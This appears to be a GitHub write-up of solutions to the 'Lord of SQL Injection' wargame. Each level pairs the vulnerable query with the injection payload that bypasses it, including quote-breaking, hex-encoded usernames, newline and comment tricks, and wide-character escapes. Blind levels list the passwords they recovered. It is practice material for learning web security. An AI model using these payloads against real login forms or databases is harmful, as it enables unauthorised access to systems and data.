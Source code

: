 # Lord-of-Sql-injection

gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


succubus(pass)

nightmare(pass)


xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석



